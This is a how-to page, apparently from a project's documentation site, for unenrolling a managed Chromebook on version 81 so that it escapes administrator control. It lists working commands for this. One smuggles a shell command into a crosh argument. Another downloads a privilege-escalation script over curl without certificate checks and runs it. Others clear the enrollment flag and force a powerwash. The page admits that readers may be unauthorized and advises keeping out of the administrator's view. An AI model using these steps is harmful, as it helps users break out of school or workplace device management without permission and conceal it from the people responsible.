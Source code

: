 ```yaml
---
title: "v81 Unenrollment - Crosh"
pagination_next: fakemurk
pagination_prev: get-started
---
```


## Section I - Obtain Root Access

Inside of crosh, run the following command:

```sh
set_cellular_ppp \';bash;exit;\'
```

You should be dropped into a bash shell. If not, check the [troubleshooting guide](troubleshooting).

Now, run the following command to download and run the privilege escalation script:

```sh
cd ~/Downloads && curl -LOk https://raw.githubusercontent.com/rainestorme/resources/main/80.sh && bash <(cat ~/Downloads/80.sh)
```

You should be dropped into a bash shell with a **red** prompt. If not, check the [troubleshooting guide](troubleshooting).

## Section II - Unenrolling and Powerwashing

Run the following command:

```sh
vpd -i RW_VPD -s check_enrollment=0
```

Now, we need to powerwash the device to fully unenroll. Run the following commands:

```sh
echo "fast safe" >/mnt/stateful_partition/factory_install_reset
reboot
```

After powerwashing, your Chromebook will behave like a personal device and will be completely unrestricted.

:::danger

Your administrator wil be able to see that your device is "offline", and you should spend as little time as possible in this state if you are not authorized to be following this tutorial.

:::

## Section III - Next Steps

:::tip[Next]

If you want to re-enroll but keep your Chromebook unrestricted, continue to [fakemurk](../fakemurk)

...or you could just keep your device like this, and use it as a personal device. The choice is yours.

:::